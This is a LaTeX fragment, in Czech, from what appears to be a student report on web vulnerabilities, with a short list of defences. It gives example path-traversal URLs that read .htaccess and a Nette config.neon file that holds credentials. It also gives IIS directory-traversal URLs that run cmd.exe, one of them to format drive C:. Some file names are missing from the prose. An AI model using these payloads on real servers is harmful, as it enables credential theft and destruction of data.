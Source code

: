\documentclass[12pt, a4paper]{report}
\begin{document}
\begin{lstlisting}[label=man_url_get_htaccess,caption=Manipulace s URL - získání .htaccess]
http://portal.czu.cz/index.php?item=../.htaccess
\end{lstlisting}

\begin{lstlisting}[label=man_url_get_neon,caption=Manipulace s URL - získání config.neon]
http://portal.czu.cz/index.php?item=../config/config.neon
\end{lstlisting}

V prvním příkladě jsme se snažili získat soubor , který může obsahovat autentizační metody, nastavení práv apod. Ve druhém příkladě jsme se poukoušeli získat soubor . Tento soubor slouží pro uchování citlivých informací na webech, které využívají Nette Framework. Příkladem takových informací může být přihlášení k databázi.

\subsection{IIS Web Server}
Starší verze IIS\footnote{Internet Information Service - Microsoftem distribuovaná obdoba webového serveru Apache2} umožňovaly dokonce i vykonávat příkazy na serveru.

\begin{lstlisting}[label=iis_derave,caption=Ukázka URL pro \uv{děravé} IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+dir+c:\
\end{lstlisting}

Tento příkaz spustil  (příkazová řádka systému Windows) a v něm příkaz . Nic nám tedy nebrání přidávat uživatele do systému, nebo formátovat pevné disky, jak lze vidět zde:

\begin{lstlisting}[label=iis_derave_format,caption=Formátování disku C: přes chybu v IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+format+c:\
\end{lstlisting}

\subsection{Obrana}
\begin{itemize}
\item Mít správně nastavená oprávnění a cesty jednotlivých webových serverů (virtuálních hostů).
\item Kontrolovat, co vlastně do stránky vkládáme.
\item Úplně se vyhnout vkládání dat do stránky (například v PHP můžeme použít \textit{spl$\_$autoload$\_$register}, který nám automaticky podle zadané funkce načítá třídy ze souborového systému).
\end{itemize}
\end{document}
